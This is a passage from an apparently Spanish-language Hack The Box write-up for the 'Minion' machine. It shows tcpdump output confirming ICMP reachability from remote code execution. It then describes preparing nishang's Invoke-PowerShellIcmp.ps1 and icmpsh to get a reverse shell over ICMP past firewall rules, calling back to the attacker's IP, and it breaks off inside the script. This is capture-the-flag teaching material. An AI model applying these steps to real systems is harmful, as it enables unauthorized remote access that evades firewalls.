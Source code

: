 Probamos nuevamente a ejecutar un comando, esta vez mandando una traza a nuestra maquina host, obtenemos un `exit status = 0` y recibimos la petición correctamente.

![](/assets/images/HTB/htb-writeup-Minion/mini7.PNG)

```bash
❯ tcpdump -i tun0 icmp -v
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:40:07.142661 IP (tos 0x0, ttl 127, id 6473, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.10.57 > 10.10.16.10: ICMP echo request, id 1, seq 1, length 40
17:40:07.142685 IP (tos 0x0, ttl 64, id 60344, offset 0, flags [none], proto ICMP (1), length 60)
    10.10.16.10 > 10.10.10.57: ICMP echo reply, id 1, seq 1, length 40
```

Si ahora que tenemos `RCE` podemos tratar de enviarnos una `reverse shell` a nuestra maquina, pero no va a ser posible puesto que por dentro existen reglas de firewall que evitan que ganemos acceso por `tcp` y por `udp`.

Pero podriamos entablarnos una `reverse shell` por `ICMP` ya que tenemos traza con nuestra maquina, para ello vamos a usar el script `Invoke-PowerShellIcmp.ps1` del repositorio de `nishang`:

* [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1)


Cateamos el script y vemos que necesitamos ejecutar dos comandos y uno de ellos ejecuta el script `icmpsh_m.py` que necesitamos descargar.

![](/assets/images/HTB/htb-writeup-Minion/mini8.PNG)


Nos descargamos el archivo y ejecutamos los comandos.

* [https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py](https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py)


Ahora para evitar problemas en el script `Invoke-PowerShellIcmp.ps1` vamos a quitar todos los comentarios, tambien las lineas vacias y agregar al final `Invoke-PowerShellIcmp -IPAddress 10.10.16.10`, para que al interpretarse ejecute la instrucción.

```powershell
cat Invoke-PowerShellIcmp.ps1 | sed '/^\s*$/d' > icmp.ps1
❯ cat icmp.ps1
function Invoke-PowerShellIcmp
{ 
    [CmdletBinding()] Param(
        [Parameter(Position = 0, Mandatory = $true)]
        [String]
        $IPAddress,
        [Parameter(Position = 1, Mandatory = $false)]
        [Int]
        $Delay = 5,
        [Parameter(Position = 2, Mandatory = $false)]
        [Int]
```